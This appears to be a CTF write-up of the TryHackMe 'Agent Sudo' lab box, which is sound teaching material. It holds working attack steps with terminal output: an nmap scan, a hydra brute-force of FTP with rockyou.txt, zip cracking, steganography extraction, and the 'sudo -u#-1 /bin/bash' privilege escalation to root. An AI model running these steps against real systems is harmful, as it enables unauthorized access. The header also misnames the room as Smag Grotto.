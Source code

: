 ```yaml
---
layout: post
title: Agent Sudo
date: 2020-08-03 00:00:00 +5:30
description: The Following Post is writeup of smag grotto room of tryhackme # Add post description (optional)
img: smaggroto.png # Add image post (optional)
tags: [tryhackme, CTF, Sudo, CVE, Hashcracking, Steganography] # add tag
---
```


## Description:

The Following Post is writeup of Agent Sudo room of tryhackme <https://tryhackme.com/room/agentsudoctf>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Easy
|Creator | DesKel

## Summary:

  PortScan will give you 3 open ports 21,22 and 80. When we go to port 80 we can see a message to change useragent
  we changed it to C and boom landed upon secret page. From here we logged into ftp and extracted some files. Zip Crack and
  Steganography all the way. Now we have another username and password. Now sudo exploit.

## Walkthrough:

### Enumeration
Lets start with nmap scan

```terminal
└──╼ $nmap -sC -sV -A -T4 10.10.144.201 -v
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 10:22 EDT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating Ping Scan at 10:22
Scanning 10.10.144.201 [2 ports]
Completed Ping Scan at 10:22, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:22
Completed Parallel DNS resolution of 1 host. at 10:22, 0.10s elapsed
Initiating Connect Scan at 10:22
Scanning 10.10.144.201 [1000 ports]
Discovered open port 21/tcp on 10.10.144.201
Discovered open port 80/tcp on 10.10.144.201
Discovered open port 22/tcp on 10.10.144.201
Increasing send delay for 10.10.144.201 from 0 to 5 due to 47 out of 117 dropped probes since last increase.
Completed Connect Scan at 10:22, 14.29s elapsed (1000 total ports)
Initiating Service scan at 10:22
Scanning 3 services on 10.10.144.201
Completed Service scan at 10:22, 6.46s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.144.201.
Initiating NSE at 10:22
Completed NSE at 10:22, 7.03s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.96s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Nmap scan report for 10.10.144.201
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Initiating NSE at 10:22
Completed NSE at 10:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.66 seconds
```
Start our enum for port 80

>Dear agents,

>Use your own codename as user-agent to access the site.

>From,<br/>
>Agent R

>try user agent C

#### Secret Page

>Attention chris,

>o you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

>From,<br/>
>Agent R



So indeed the password is weak let's brute force ssh or ftp

I tried both but got success in vsftpd

```terminal
└──╼ $hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.144.201
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-02 10:28:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.144.201:21/
[21][ftp] host: 10.10.144.201   login: chris   password: <redacted>
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-02 10:30:02
```
```terminal
Let's check files

-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
cat To_agentJ.txt

>Dear agent J,

>All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

>From,
Agent C

Another message<br/>
Let's check for Steganography

Binwalk
```terminal
└──╼ $binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Use john to crack the zip pass then we will get a Message

>Agent C,

>We need to send the picture to 'QXJ.....' as soon as possible!

>By,
Agent R

Hmmmm interesting let's check where we can put this password
I pretty much stuck but after a thought i got it
```terminal
└──╼ $base64 -d rand.txt
<redacted>
```
hahha worked and got message.txt

>Hi james,

>Glad you find this message. Your login password is hackerrules!

>Don't ask me why the password look cheesy, ask agent R who set this password for you.

>Your buddy
chris

For real i stuck a bit here and ran exploit suggester but got nothing
Then I feel noob when i ran this and my mind sudenly hit
```terminal
james@agent-sudo:/tmp$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
Yup sudo exploit

```terminal
james@agent-sudo:/tmp$ sudo -u#-1 /bin/bash
root@agent-sudo:/tmp#
```

Damn Good Rooted

>To Mr.hacker,

>Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

>Your flag is
<redacted>

>By,
<redacted> a.k.a Agent R
